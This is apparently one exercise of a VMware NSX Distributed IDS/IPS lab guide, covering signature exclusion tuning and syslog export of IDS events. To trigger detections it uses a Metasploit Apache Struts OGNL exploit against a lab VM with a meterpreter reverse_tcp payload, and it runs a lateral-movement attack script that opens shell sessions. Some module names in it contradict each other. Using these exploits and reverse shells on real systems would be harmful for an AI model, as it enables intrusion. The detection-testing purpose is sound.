


## 8. Advanced Attack and Configuration
**Estimated Time to Complete: 60 minutes**

In this **optional** exercise, we will explore some more advanced options in the NSX Distributed IDS/IPS Configuration
 * Tuning IDS/IPS Profile to turn off irrelevant signatures
 * Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

**Tuning IDS/IPS Profile to turn off irrelevant signatures**

> **Note**: Within an IDS/IPS Profile, you can define exclusions in order to turn off particular signatures within the context of that profile. Reasons to exclude signatures include false positives, noisy or irrelevant signatures being triggered.

1.	From the console session with  **External VM**, type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/multi/http/struts2_namespace_ognl** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **exploit** to initiate the exploit.

> **Note**: This exploit will fail as  **App1-WEB-TIER VM** is not running an Apache Struts service vulnerable to this exploit.
    
```console
msf5 >  use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) >
```
2. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
3. Confirm 3 signatures have fired:
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638)
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M2
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M3
    
4. Note that the **affected product** for all these events is **Apache_Struts2** and the severity for all events is **high**.
5. Now we will turn off these signatures for the **Production** profiles as we are not running **Apache_Struts2** in our production environment.
6. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Profiles
7.	Click the **3 dots** next to the **Production** profile and click **Edit** to edit the profile.
8. Click **Select** next to **High Severity Signatures**
9. In the **Filter** field, type **Apache_Struts2** to find all signatures related to Struts2. Tick the **Checkbox** on top of the exclusion screen to select all filtered signatures.

10. Click **Add** to add the selected signatures to th exclusion list for the **Production** profile.
11. Click **Save** to save the **Production** profile.

Now that we have tuned our Profile, we will try the failed exploit attempt again, and confirm this time the signatures don't fire.

12.	From the already open console session with  **External VM**, use the already configured **struts2_namespace_ognl** Metastploit module to launch the exploit attempt again. 
    * Type **exploit** to initiate the exploit. If you had previously closed Metsploit, then repeat step #1 of this exercise instead to launch the exploit attempt
13. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
14. Confirm the total number of events or the number of times each **Apache_Struts2** signature fired has not increased.

15. You have now completed this exercise.

**Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

> **Note**: In addition to sending IDS/IPS Events from each distributed IDS/IPS engine, you can send them directly to a Syslog collector or SIEM from each host. Events are sent in the EVE.JSON format for which many SIEMS have pre-existing parsers/dashboards. 

In this exercise, you will learn how to conigure IDS event export from each host to your syslog collector or SIEM of choice. I will use **vRealize Log Insight**. You can use the same or your own SIEM of choice.
We will not cover how to install **vRealize Log Insight** or any other logging platform, but the following steps will cover how to send IDS/IPS evens to an aleady configured collector.

1. Login to lab vCenter and click on **Hosts and Clusters**, then select one of the 3 hosts that were deployed.
2. Click the **Configure** Tab and Scroll down to **System**. Click **Advanced System Settings**
3. Click the **Edit** button
4. In the **Filter** field, type **loghost**
5. Enter the **IP address of your syslog server** in the **Syslog.global.logHost** value field and click **OK** to confirm.

6. Repeat the same for the remaining 2 hosts.
7. Click on **Firewall** in the same **System** menu
8. Click the **Edit** button
9. In the **Filter** field, type **syslog**
10. Tick the checkbox next to **syslog** to allow outbuound syslog from the host.
11. Repeat the same for the remaining 2 hosts.

12. Open a terminal session to one of the lab hypervisors , login with **root**/**VMware1!** and execute the below commands to enable IDS log export via syslog
    * Type **nsxcli** to enter the NSX CLI on the host
    * Type **set ids engine syslogstatus enable** to enable syslog event export
    * Confirm syslog event export was succesfully enabled by running the command **get ids engine syslogstatus**

```console
[root@localhost:~] nsxcli
localhost> set ids engine syslogstatus enable
    result: success
    
localhost> get ids engine syslogstatus
       NSX IDS Engine Syslog Status Setting
--------------------------------------------------
                       true
```
13. Login to your syslog collector/SIEM and confirm you are receiving logs form each host.
14. Configure a parser or a filter to only look at IDS events. You can for example filter on the string **IDPS_EVT**. 

15. Now we will run the lateral attack scenario we used in an earlier exercise again. This time, use the pre-defined script to run the attack instead of manaully cofiguring the **Metasploit modules**.
16. Before you execute the script, if you have not previously used it, you need to ensure the IP addresses match your environment.  Utype **sudo nano attack2.rc** and replace the **RHOST** and **LHOST** IP addresses accordingly to match with the IP addresses in your environment. 
    * **RHOST** on line 3 should be the IP address of the App1-WEB-TIER VM 
    * **SUBNET** on line 6 (route add) should be the Internal Network subnet 
    * **LHOST** on line 9 should be the IP address of the External VM (this local machine) 
    * **RHOST** on line 10 should be the IP address of the App1-APP-TIER VM RHOST on line 13 should be the IP address of the App2-APP-TIER VM
17. After saving your changes, run the attack2 script by executing **sudo ./attack2.sh**.
18. Confirm a total of 3 meterpreter/command shell sessions have been established
19. Confirm your syslog server/SIEM has received the IDS events, directly from the host


This comnpletes this exercise.

---

[***Next Step: 9. Segmentation***](/docs/9-Segmentation.md)
